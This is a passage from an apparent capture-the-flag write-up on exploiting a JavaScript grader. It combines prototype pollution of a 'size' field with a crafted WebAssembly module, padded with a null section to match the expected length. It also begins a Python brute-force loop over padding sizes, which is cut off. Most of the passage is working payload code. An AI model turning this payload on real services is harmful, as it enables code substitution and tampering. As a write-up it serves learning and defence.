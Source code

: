```javascript
}`;
```
This doesn't quite work yet, but produces a different error:
```javascript
...\dist-proto_grader\backend\grader\index.js:35
  const module = new WebAssembly.Module(code);
                 ^
CompileError: WebAssembly.Module(): expected string length @+132
```
This is because the original wasm code's byte size and our code's byte size does not match up, so the javascript throws an error. So the final step we need to do is to make the wasm length's match up. The original code was `737 bytes` long, while our code is only `130 bytes` long. We can add the remaining `607 bytes` by adding section bytes to the end of our code.

 Adding the section header bytes ``00 DC 04`` to the end of our existing wasm extends the size of our wasm. The first byte ``00`` is the section id byte in wasm, while ``DC 04`` is 604 in [ULEB](https://en.wikipedia.org/wiki/LEB128) encoding, indicating the size of the section. This size combined with the 3 bytes from the section headers accounts for our missing ```607 bytes```. Since the remaining bytes are set to null bytes by the below line in the ``decode_user_hex_string`` function, the section that we add is simply a null section which does not affect the wasm file, other than increasing it's size.
 ```javascript
if (Number.isNaN(byte)) {
     buf[i >>> 1] = 0;
}
```

Thus our (almost) final payload
```javascript
data = "11".repeat(904)+"0061736d0100000001070160027f7f017f020f0103656e76066d656d6f7279020000030201000718020b6c6576656e73687465696e0000066d656d6f727902000a0601040041000b0038046e616d65010e01000b6c6576656e73687465696e020b010002000270300102703104050100027430060d01000a656e762e6d656d6f727900dc04"
size = 3000
var src = `{
    "__proto__":{
        "size":${size}
    },
    "input":"${data}"
}`;
```
Which works (on my device)
*output*
```
<Buffer 00 61 73 6d 01 00 00 00 01 07 01 60 02 7f 7f 01 7f 02 0f 01 03 65 6e 76 06 6d 65 6d 6f 72 79 02 00 00 03 02 01 00 07 18 02 0b 6c 65 76 65 6e 73 68 74 ... 687 more bytes>
0
```

## Solving Process Pt 4 (Brute Forcing the required Padding Bytes)
Recall that I needed to add a few bytes to the beginning of my code to make it work:
```javascript
data = "11".repeat(904)+...
```
After some testing, the number required to be added varies depending device, as well the source code as well. So we'll need to keep testing each possible pad size until our payload works. Heres the code for that:
```python
import requests 
data = "61736d0100000001070160027f7f017f020f0103656e76066d656d6f7279020000030201000718020b6c6576656e73687465696e0000066d656d6f727902000a0601040041000b0038046e616d65010e01000b6c6576656e73687465696e020b010002000270300102703104050100027430060d01000a656e762e6d656d6f727900dc04"
for i in range(0,1000):
    if i%100 == 0:
        print(i)
```